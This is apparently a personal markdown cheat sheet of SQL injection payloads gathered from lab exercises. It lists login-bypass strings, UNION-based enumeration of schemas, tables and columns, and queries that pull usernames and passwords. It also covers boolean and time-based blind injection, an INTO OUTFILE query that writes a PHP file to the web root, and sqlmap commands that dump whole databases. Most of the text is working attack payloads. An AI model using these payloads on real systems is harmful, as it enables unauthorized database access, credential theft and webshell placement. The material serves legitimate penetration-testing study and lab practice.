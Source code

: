 # SQL Injection

**Line Comments Sample SQL Injection Attacks**

- Username: `admin'--`
- Username: `admin' OR 1=1; --`
- Username: `admin' sleep(10);`

`' or 1=1; -- -`

### Enumerating columns in a table

Start by incrementing the ORDER BY value untill you get an error

```
searchitem=test' ORDER BY 3-- -
```

After getting the column information it is time to use union

```
searchitem=test' UNION SELECT 1,2,3-- -
```

If this produces “1,2,3” on the page and we can hijack one of these and replace it with a nested SQL statement like:

```
searchitem=test' UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -

searchitem=test' UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'db'),3-- -

searchitem=test' UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'),3-- -

searchitem=test' UNION SELECT 1,(select username from db.users),3-- -


group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

/admin?user=0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
```

## Blind SQLi Boolean based

```
admin123' UNION SELECT 1;--
admin123' UNION SELECT 1,2,3;--
admin123' UNION SELECT 1,2,3 where database() like '%';--
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

cycle trough characters

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--

columns

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named id, you'll append that to your original payload (as seen below).

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username which you can use the payload below:

admin123' UNION SELECT 1,2,3 from users where username like 'a%
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Blind SQLi Time based

```
admin123' UNION SELECT SLEEP(5);--
If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
admin123' UNION SELECT SLEEP(5),2;--



referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--

...

https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2  from users where username='admin' and password like '4961%
```

## The same but with commands

http://10.10.9.16/item.php?id=5 order by 1,2,3,4,5,6

http://10.10.9.16/item.php?id=5 union all select 1,2,3,4,5

Return the DB name

http://10.10.9.16/item.php?id=5 union all select 1,database(),3,4,5

Return table names

http://10.10.9.16/item.php?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()

Return columns

http://10.10.9.16/item.php?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"

http://10.10.9.16/item.php?id=5 union select 1,password,3,4,5 from users

## LFI

```
/room.php?cod=999 UNION SELECT "1","2",(SELECT '<?php phpinfo(); ?>'),"4","5","6" INTO OUTFILE '/var/www/html/test.php'

Placeholders are present just to complete the UNION statement
```

## SQL Map

### From Burp/ZAP capture

Capture the request and create a req.txt file

```
sqlmap -r req.txt --current-user

sqlmap -r request.txt --dbms=mysql --dump

sqlmap -r request -p title

-r uses the intercepted request you saved earlier
-p selects the parameter we want to test
--dbms tells SQLMap what type of database management system it is
--dump attempts to outputs the entire database
```

```
 sqlmap -r search_form.txt --tables
 sqlmap -r search_form.txt --columns -D Staff
 sqlmap -r search_form.txt --columns -D users
 sqlmap -r search_form.txt --dump -D users -T UserDetails
```

### GET Request Injection

```
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id

If vulnerable, list tables
sqlmap -u "http://example.com/?id=*" -p id --tables
sqlmap -u "http://example.com/?id=1" -D awd -T accounts --dump
```

#### Using a cookie

```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title

List databases
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs

List tables
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables

List columns
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns

Dump table contents
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
```

### POST Request Injection

```
sqlmap -u "http://example.com" --data "username=*&password=*"
```

###

```
sqlmap -u "http://10.10.35.99/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

To dump specific database tables
sqlmap -u "http://10.10.35.99/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] -D joomla --tables

To dump table contents
sqlmap -u "http://10.10.35.99/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --dump
```
